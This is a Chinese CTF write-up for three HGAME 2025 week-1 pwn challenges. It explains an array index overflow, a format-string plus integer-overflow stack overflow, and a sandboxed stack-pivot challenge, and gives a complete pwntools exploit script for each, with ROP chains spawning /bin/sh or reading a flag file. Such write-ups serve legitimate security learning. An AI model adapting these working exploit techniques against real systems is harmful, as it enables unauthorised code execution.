# hgame2025 week1 pwn题解-先知社区

> **来源**: https://xz.aliyun.com/news/16778  
> **文章ID**: 16778

---

## pwn

### counting petals

我们简单分析下程序，保护全开，init函数中以当前时间戳作为随机数种子：



导致生成的“随机数”可预测，这个可以用来后面防止程序在第一次就break退出（不过其实我们试多几次也能成功，所以此处绕过可有可无），奇数&1=1，偶数&1=0，如果随机数%30后是偶数则输入1，随机数%30后是奇数则输入0便可以保证不break：



我们在这里可以发现有个溢出，而数组下标最大只到16，但这里如果一开始我们输入的是16，则会出现16+1=17的下标，从而导致数组溢出：

而下标17的数据是什么呢，我们gdb调试一下可以发现一些有用的数据：



其中红色框框是我们输入的flower的数量，绿色框框是数组当前的下标，由于后面会把数组的值都打印出来，因此我们可以**利用第一次去覆盖伪造数组下标去泄露libc地址，然后第二次去覆盖返回地址构造rop链。数一下第一次输入0x0000001300000013便可以泄露libc地址，第二次输入0x0000001200000016便可以直接覆盖返回地址构造rop链**。

exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
io=process('./vuln')
#io=remote('119.45.167.173',31958)
libc=ELF('./libc.so.6')
from ctypes import *
import time
dll = cdll.LoadLibrary("./libc.so.6")
time_seed=int(time.time())
seed = dll.srand(time_seed)
rand_num=dll.rand()

io.sendlineafter('time?
','16')
for i in range(15):
    io.sendlineafter(': ','0')

io.sendlineafter(': ',str(0x0000001300000013))
if(rand_num%30%2==0):
    io.sendlineafter('latter: 
','1')
else:
    io.sendlineafter('latter: 
','0')

io.recvuntil('+ 1 + ')
libc_base=int(io.recvuntil(' + ')[:-3],10)-0x29d90
success('libc_base:'+hex(libc_base))
ret=libc_base+0x0000000000029139
rdi=libc_base+0x000000000002a3e5
system=libc_base+libc.symbols['system']
bin_sh=libc_base+next(libc.search(b'/bin/sh\x00'))

io.sendlineafter('time?
','16')
for i in range(15):
    io.sendlineafter(': ','0')
io.sendlineafter(': ',str(0x0000001200000016))

io.sendlineafter(': ',str(ret))
io.sendlineafter(": ",str(rdi))
io.sendlineafter(': ',str(bin_sh))
io.sendlineafter(': ',str(system))
io.sendlineafter('latter: 
','1')

io.interactive()
```



### format

我们简单分析下程序，保护基本都没开，然后有个格式化字符串漏洞，但每次只能输入3个字节的大小：

然后就是输入一个数字v5，如果小于5，就跳进vuln函数，vuln函数里面可以read大小为v5的数据，此时我们可以看到一个好玩的东西，在main函数中v5的比较是有符号大小的比较，意味我们可以输入负数，而在vuln中则是**unsigned int**类型，输入的负数在vuln中则是一个巨大的数，我们就可以栈溢出构造rop链去get shell了





所以我们一开始思路是先利用格式化字符串漏洞泄露libc地址，再通过整数溢出漏洞去进行栈溢出。

但经过测试发现：由于只能输入3个字节大小，直接用%p泄露出来的是栈地址，所以我们改变下思路，因为程序没开pie，程序地址可知，所以我们第一次栈溢出控制rbp的数值为我们输入的栈地址，并再次返回利用格式化字符串漏洞去泄露libc地址：


然后溢出打system('/bin/sh')就好了，不过要注意scanf缓冲区会吞掉一个字符导致后面的输入输出有点怪怪的，这个gdb调试一下大概就知道得写入多少了。

exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
io=process('./vuln')
io=remote('node2.hgame.vidar.club',32276)
libc=ELF('./libc.so.6')


io.sendlineafter(' n = ','1')
io.sendlineafter('something:','%p')
io.recvuntil('you type: ')
stack_addr=int(io.recv(14),16)
success('stack_addr:'+hex(stack_addr))

io.sendlineafter(' n = ','-11')
elf_addr=0x4012CF
pd=b'-1\x0011'+p64(stack_addr+0x2120+0x10)+p64(elf_addr)+b'%9$p\x00'
io.sendline(pd)

io.recvuntil('type something:')
libc_base=int(io.recv(14),16)-0x29d90
success('libc_base:'+hex(libc_base))
rdi=libc_base+0x000000000002a3e5
ret=libc_base+0x0000000000029139
bin_sh=libc_base+next(libc.search(b'/bin/sh\x00'))
system=libc_base+libc.symbols['system']
pd=b'aaaaa'+p64(0)+p64(ret)+p64(rdi)+p64(bin_sh)+p64(system)
io.sendline(pd)

io.interactive()
```



### ezstack

程序开启了沙箱，禁用了execve和execveat，需要通过orw获取flag：





我们分析下程序，htons函数设置套接字，0.0.0.0：9999；bind函数绑定套接字，listen函数则是在监听端口，然后accept函数等待客户端连接：



运行程序则相当于开了一个TCP服务器，监听9999端口并等待接受连接，本地要运行程序的方法跟以往不同，需要**先运行vuln程序，然后通过**`nc 0.0.0.0 9999`**连接服务器接收输入输出**：




而用**gdb调试**则也是一样，gdb启动后写脚本连接0.0.0.0:9999进行传输。

因为printf和read的第一个参数都是通过连接后的套接字描述设置的，所以没法直接返回vuln函数，它的第一个参数是描述符，我们需要利用栈迁移，寻找内容带描述符的空间，然后栈迁移过去，再次执行write泄露地址或是read读入内容：



我们用gdb查找一下套接字描述符：



看看我们发现了什么（doge）：



“gift”，说明我们的思路没错，这个应该是给我们拿来伪造描述符使用的。

所以我们当前的思路为先利用栈迁移过去再次执行read：



将rsi设置为write的got表地址，然后设置rbp地址以便后续再次进行栈迁移劫持程序流，然后调用write泄露libc地址，可以拿到一堆gadget的地址，此时就能布置orw链了：


继续调用read，为的是读入更多的内容以便进行orw的布置。

此题因为要进行多次栈迁移，所以需要注意在栈迁移的时候多留意rbp的值，这个gdb多调试跟进就可以了。

然后此题的独特之处主要在于调试跟以往的pwn题不太相同，需要先启动程序，再通过远程连接的方式进行传输，是道很不错的题。

exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64')
io=remote('0.0.0.0',9999)
#io=remote('node1.hgame.vidar.club',31334)
elf=ELF('./vuln')
libc=ELF('./libc-2.31.so')

write_got=elf.got['write']
addr1=0x40140F
gift_addr=0x404100
pd1=b'a'*0x50+p64(gift_addr+0x54)+p64(addr1)
# read(4,0x404104,0x60)
io.sendafter('Good luck.
',pd1)

lea_ret=0x00000000004013cb
rsi_r15=0x0000000000401711
addr2=0x4013A4
rbp=0x000000000040135d

pd2=p32(0)+p64(rsi_r15)+p64(write_got)+p64(0)  # 设置rsi为write的got地址，等下call write泄漏libc地址
pd2+=p64(rbp)+p64(gift_addr+0x38) # 等下call write后有个leave;ret;再次劫持程序流
pd2+=p64(addr2) # call write 泄漏libc地址
pd2+=p64(gift_addr+0x54)+p64(addr1) # 再次read
pd2+=p64(4)+p32(0)+p64(gift_addr)+p64(lea_ret) # 栈迁移
io.send(pd2)

write=u64(io.recv(6).ljust(8,b'\x00'))
libc_base=write-libc.symbols['write']
success('libc_base:'+hex(libc_base))
rdi=0x0000000000401713
ret=0x000000000040101a
rsi=libc_base+0x000000000002601f
rdx_r12=libc_base+0x0000000000119431
open_addr=libc_base+libc.symbols['open']
read=libc_base+libc.symbols['read']

# read长度0x200的内容
pd3=p32(0)+p64(rsi)+p64(gift_addr+0x30+8)+p64(rdx_r12)+p64(0x200)+p64(0)+p64(read)
io.sendline(pd3)

# orw
#open
pd4=p64(rdi)+p64(gift_addr+0x38+0x98)+p64(rsi)+p64(0)+p64(rdx_r12)+p64(0)+p64(0)+p64(open_addr)
#read
pd4+=p64(rdi)+p64(5)+p64(rsi)+p64(gift_addr)+p64(rdx_r12)+p64(0x30)+p64(0)+p64(read)
#write
pd4+=p64(rdi)+p64(4)+p64(write)
pd4+=b'./flag\x00'
io.sendline(pd4)

io.interactive()
```


